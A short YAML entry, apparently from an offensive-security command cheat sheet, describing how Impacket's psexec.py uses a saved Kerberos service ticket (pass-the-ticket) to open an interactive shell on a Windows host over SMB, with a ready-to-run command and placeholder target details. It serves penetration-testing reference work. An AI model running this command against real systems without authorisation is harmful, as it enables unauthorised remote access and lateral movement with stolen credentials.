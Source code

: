 ```yaml
---
description: |
  Impacket's psexec.py offers psexec like functionality. This will give you an interactive shell on the Windows host. psexec.py also allows using Service Tickets, saved as a ccache file for Authentication. It can be obtained via Impacket's GetST.py
  Command Reference:
  	Target IP: 10.10.10.1
  	Domain: test.local
  	Username: john
command: |
  export KRB5CCNAME=/full/path/to/john.ccache; python3 psexec.py test.local/john@10.10.10.1 -k -no-pass
items:
  - TGS
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
  - https://www.sans.org/blog/psexec-python-rocks/
  - https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket#pass-the-ticket-attack
---
```

